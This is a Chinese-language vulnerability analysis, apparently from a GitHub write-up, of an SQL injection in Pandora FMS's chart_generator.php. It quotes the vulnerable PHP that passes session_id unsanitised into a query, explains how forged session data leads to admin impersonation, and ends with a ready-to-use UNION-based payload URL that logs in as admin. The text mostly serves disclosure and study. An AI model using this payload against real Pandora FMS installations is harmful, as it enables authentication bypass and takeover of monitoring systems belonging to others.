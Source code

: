 ## 漏洞产生原因

`include/chart_generator.php`中的`user = new PandoraFMS\User(['phpsessionid' => $_REQUEST['session_id']]);`直接使用了用户输入的数据

`include/lib/User.php`

```php
public function __construct($data) {
    global $config;
    // Unset user.
    unset($config['id_usuario']);
    unset($_SESSION['id_usuario']);
    if (is_array($data) === true) {
        if (isset($data['phpsessionid']) === true) {
            $this->sessions[$data['phpsessionid']] = 1;
            $info = db_get_row_filter('tsessions_php', ['id_session' => $data['phpsessionid']]);
            if ($info !== false) {
                // Process.
                $session_data = session_decode($info['data']);
                $this->idUser = $_SESSION['id_usuario'];
                // Valid session.
                return $this;
            }
            return null;
        }
        if (isset($data['id_usuario']) === true && isset($data['password']) === true) {
            $user_in_db = process_user_login($user, $password, true);
            if ($user_in_db !== false) {
                $config['id_usuario'] = $user_in_db;
                $correctLogin = true;
                // Originally at api.php.
                if (session_status() === PHP_SESSION_NONE) {
                    session_start();
                }
                $_SESSION['id_usuario'] = $user;
                session_write_close();
                $this->idUser = $data['id_usuario'];
                // Valid session.
                return $this;
            }
        }
    }
    return null;
}
```

`include/db/mysql.php`直接将`$filter`即`$_REQUEST['session_id']`进行数据分拆后拼接到sql语句中`$sql = sprintf('SELECT %s FROM %s %s', $fields, $table, $filter);`

```php
function mysql_db_get_row_filter($table, $filter, $fields=false, $where_join='AND', $historydb=false)
{
    if (empty($fields)) {
        $fields = '*';
    } else {
        if (is_array($fields)) {
            $fields = implode(',', $fields);
        } else if (! is_string($fields)) {
            return false;
        }
    }

    if (is_array($filter)) {
        $filter = db_format_array_where_clause_sql($filter, $where_join, ' WHERE ');
    } else if (is_string($filter)) {
        $filter = 'WHERE '.$filter;
    } else {
        $filter = '';
    }

    $sql = sprintf('SELECT %s FROM %s %s', $fields, $table, $filter);

    return db_get_row_sql($sql, $historydb);
}
```

利用这个sql注入漏洞,可以返回伪造的数据,进而在`session_decode`后伪造`$_SERSSION`变量并用于假冒用户登录

```php
if ($info !== false) {
    // Process.
    $session_data = session_decode($info['data']);
    $this->idUser = $_SESSION['id_usuario'];
    // Valid session.
    return $this;
}
```

[pandora_console/pandoradb.sql](https://github.com/pandorafms/pandorafms/blob/953aa2887c53e6348276844ec63c25a4f8420571/pandora_console/pandoradb.sql)

```sql
CREATE TABLE IF NOT EXISTS `tsessions_php` (
  `id_session` CHAR(52) NOT NULL,
  `last_active` INT NOT NULL,
  `data` TEXT,
  PRIMARY KEY (`id_session`)
)ENGINE=InnoDB DEFAULT CHARSET=UTF8MB4;
```

payload

```
pandora_console/include/chart_generator.php?session_id=' union SELECT 1,2,'id_usuario|s:5:"admin";' as data--+
```